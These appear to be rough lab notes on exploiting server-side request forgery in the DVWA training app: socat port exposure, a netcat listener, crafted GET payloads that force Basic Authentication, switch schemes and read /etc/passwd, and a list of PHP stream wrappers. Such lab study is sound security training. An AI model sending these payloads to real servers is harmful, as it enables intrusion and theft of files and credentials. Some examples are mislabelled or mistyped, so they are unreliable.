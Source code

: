 #### SSRF Example
https://github.com/ethicalhack3r/DVWA

We will use the **File Inclusion** module, which is similar to a web app fetch file functionalities. DVWA has to run in **Low** security mode.

- We want to proxy our requets via BURP

Install socat
```bash
apt install socat
```

Then the DVWA is exposed via port forwarding using socat external port 800 will be connected to internal 80. This will expose ur vuln app to the outside world

Forward:
```bash
sudo socat tcp-listen:800,fork tcp:127.0.0.1:80

# Now its exposed 
```

We can try to start a listener in netcat and fetch its address via a GET request 
```
GET /DVWA/vulnerabilities/f?page=http://test:pwd@127.0.0.1:21/a HTTP/1.1
```

### Forcing Authentication
```
nv -lvnp 21

# the back-end used the username:password combination as a Basic Authentication header! 
# This means, when issuing an arbitrary request, we can also do it to like basic authentication protected resources
```

### Changing Protocol
DVWA also accepts an https URL scheme and tries to establish an encrypted connection:
```
GET /DVWA/vulnerabilities/f?page=https://test:pwd@127.0.0.1:21/ssl HTTP/1.1
```

Since we are using a plaintext connection netcat, we just see the attempt to establish SSL to our listener

The 'file://' scheme is also accepted, resulting in file inclusion.
```
GET /DVWA/vulnerabilities/f?file=http:///etc/passwd HTTP/1.1
```

You can always test more protocols handlers

https://www.php.net/manual/en/wrappers.php
```bash
- file:// # accessing local filesystem
- http:// # accessing HTTP(s) URLs
- ftp://  # accessing FTP(s) URLs
- php://  # accessing various I/O streams
- zlib:// # compression streams
- data:// # data (RFC 2397)
- glob:// # find pathnames matching patterns
- phar:// # php archive
- ssh2:// # secure shell 2
- rar://  # rar
- ogg://  # audio streams
- expect:// # process interaction streams
```
